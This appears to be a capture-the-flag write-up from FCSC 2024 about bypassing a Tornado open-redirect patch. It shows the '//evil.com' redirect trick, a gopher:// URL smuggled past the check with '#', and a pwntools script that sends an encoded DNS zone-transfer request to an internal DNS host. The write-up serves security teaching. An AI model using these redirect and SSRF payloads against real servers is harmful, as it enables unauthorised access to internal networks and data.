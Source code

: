 The ``os.path.join`` function returns ``/usr/app/static/js`` when ``os.path.dirname(__file__)`` and ``//evil.com/../usr/app/static/js`` are passed as parameters.

However, the link ``//evil.com`` is interpreted as an HTTP url by the browser and therefore redirects the user to an external site.

To prevent this vulnerability, the developers have added a check at the beginning of the redirection url: 
```python
if self.request.path.startswith("//"): 
    raise HTTPError(
        403, "cannot redirect path with two initial slashes"
    )
```

#### Bypassing the patch.

By adding a protocol to the url, it will still be vulnerable but will not start with ``//``.  
What's more, you'll need to adjust the number of ``../`` to get back to the root.

Adding a protocol to the url is possible thanks to the reggex weakness described above.

So we can send this kind of request: 
```
GET gopher://<dns>:53/_<axfr>#/../../../../usr/app/static/js
...

```

The application will retrieve the following path: 
```python
>>> import os.path
>>> os.path.join(
    'gopher://<dns>:53/_<axfr>/../../../../usr/app/static/js',
    '/usr/app/static/js'
)

'/usr/app/static/js'
```
The file's existence will be verified and then the redirection will take place.

There's one last flaw: the end of the url *(/../../../../usr/app/static/js)* must be ingested by gopher but not by tornado.

After testing 255 characters, only 3 were interesting!
-  \x00 
- ?
- \#

The ``\x00`` is an unappreciated character in curl, often causing errors when passed in a parameter.  
The ``?`` allows curl to perform the request on ``gopher://<dns>:53/_<axfr>`` but the python server doesn't perform the redirection because it interprets the rest of the *?* as a GET parameter.

So the ``#`` looks like a good candidate!


You can test the application deployed locally: 
```python
axfr = "%004n%DB%00%20%00%01%00%00%00%00%00%01%08fcsc2024%02fr%00%00%FC%00%01%00%00%29%04%D0%00%00%00%00%00%0C%00%0A%00%08I%B8%29%3C05P%8A"

io = remote('localhost', 5000)
io.send(f'''
GET gopher://pong-internal-dns:53/_{axfr}#/../../../../public/js HTTP/1.1
Host: localhost:5000
Accept: */*
Connection: close

'''[1:-1].encode())
```

[//]: <> (Wrote By Vozec 12/04/2024)